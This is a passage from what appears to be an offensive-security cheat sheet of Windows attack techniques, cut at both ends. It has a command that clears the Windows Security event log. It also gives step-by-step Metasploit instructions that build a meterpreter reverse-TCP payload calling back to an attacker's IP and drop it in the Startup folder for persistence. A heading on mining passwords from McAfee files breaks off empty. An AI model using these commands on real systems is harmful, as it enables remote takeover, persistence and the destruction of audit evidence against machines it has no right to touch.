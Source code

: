./WELA.ps1 -LogFile .\\Security.evtx -EventIDStatistics

2\.

flog -s 10s -n 200

Or

wevtutil cl Security

<a name="startup-applications"></a>
# Startup Applications

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

In Metasploit (msf \> prompt) type: use multi/handler

In Metasploit (msf \> prompt) type: set payload
windows/meterpreter/reverse_tcp

In Metasploit (msf \> prompt) type: set lhost \[Kali VM IP Address\]

In Metasploit (msf \> prompt) type: run

Open another command prompt and type:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=\[Kali VM IP Address\]
-f exe -o

x.exe

2\.

Place x.exe in "C:\\ProgramData\\Microsoft\\Windows\\Start
Menu\\Programs\\Startup".

<a name="password-mining-in-mcafeesitelistfiles"></a>
# Password Mining in McAfeeSitelistFiles

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.
